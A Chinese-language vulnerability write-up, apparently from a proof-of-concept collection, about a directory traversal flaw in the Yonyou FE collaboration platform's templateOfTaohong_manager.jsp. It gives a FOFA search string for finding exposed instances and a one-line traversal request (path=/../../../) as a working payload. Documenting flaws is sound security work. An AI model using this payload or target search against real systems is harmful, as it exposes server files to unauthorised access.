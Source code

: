 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

<a-checkbox checked>用友 FE协作办公平台</a-checkbox></br>

## FOFA

<a-checkbox checked>"FE协作"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646059676433-1560cc0a-f228-4969-862e-6c1bca531f9b.png)

验证POC

```javascript
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![img](../../../.vuepress/public/img/1646059728922-422586b0-6e56-4752-832e-4f386629fd2e.png)